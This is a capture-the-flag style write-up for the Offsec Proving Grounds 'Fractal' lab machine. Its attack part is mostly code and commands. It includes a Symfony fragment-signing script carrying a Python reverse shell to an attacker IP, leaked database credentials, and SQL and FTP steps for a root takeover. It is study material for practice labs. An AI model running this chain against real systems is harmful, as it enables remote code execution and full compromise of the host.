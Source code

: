 # Fractal

## Info

Fractal is an easy rated linux machine from Offsec proving grounds.

## Nmap

All tcp ports.

```
21
22
80
```

## HTTP port 80

There are two disallowed endpoints in robots.txt

```
/app_dev.php
/app_dev.php/*
```

Pointing the browser to this location shows Symfony profiler.

This blog post shows how RCE can be achieved.

```
https://www.ambionics.io/blog/symfony-secret-fragment
```

Application secret can be found with this url.

```
http://192.168.234.233/app_dev.php/_profiler/open?file=app/config/parameters.yml
```

## User

The following python script returns a reverse shell to port 80 and can execute system commands.

```python
#!/usr/bin/python3

import base64, hmac, hashlib, urllib.parse

# Use %2B for space
# ls%2B-la
# Python reverse shell calling back to port 80.
sys_command = 'python3%2B-c%2B%27import%2Bos%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%22192.168.45.185%22%2C80%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cf%29for%2Bf%2Bin%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27'

ip = '192.168.234.233/app_dev.php'

url_string = f'http://{ip}/_fragment?_path=_controller%3Dshell_exec%26cmd%3D{sys_command}'

url = bytes(url_string, 'UTF-8')

secret_key = b'48a8538e6260789558f0dfe29861c05b'

hash_bytes = base64.b64encode(hmac.HMAC(secret_key, url, hashlib.sha256).digest())

hash_string = hash_bytes.decode('UTF-8')

hash_string = urllib.parse.quote(hash_string)

complete_url = url_string + '&_hash=' + hash_string

print(complete_url)
```

database credentials.

```
database_user: symfony
database_password: symfony_db_password
```
database credentials /etc/phpmyadmin/config-db.php

```
$dbuser='phpmyadmin';
$dbpass='9gofRqnnz0zb';
```

database credentials for proftpd in /etc/proftpd/sql.conf

```
proftpd@localhost proftpd protfpd_with_MYSQL_password
```

# root

After signing into the database as proftpd, set these values on the table.

```
update ftpuser set homedir='/' where id=1;

update ftpuser set userid='benoit' where id=1;

update ftpuser set passwd='{md5}UtcqD13j81KqtcZRwBeKVA==' where id=1;

update ftpuser set uid=1000 where id=1;

update ftpuser set gid=1000 where id=1;

update ftpuser set shell='/bin/bash' where id=1;
```
The passwd is generated using the following command.

```
echo "{md5}"`/bin/echo -n "purplerain" | openssl dgst -binary -md5 | openssl enc -base64`
```

After signing into ftp, create a ssh key and upload into benoit home directory.

```
ssh-keygen -t rsa
cat id_rsa.pub > authorized_keys
```

In ftp.

```
mkdir .ssh
put authorized_keys
```

After ssh into the machine, sudo states all commands permitted with no password.

```
sudo su -
```
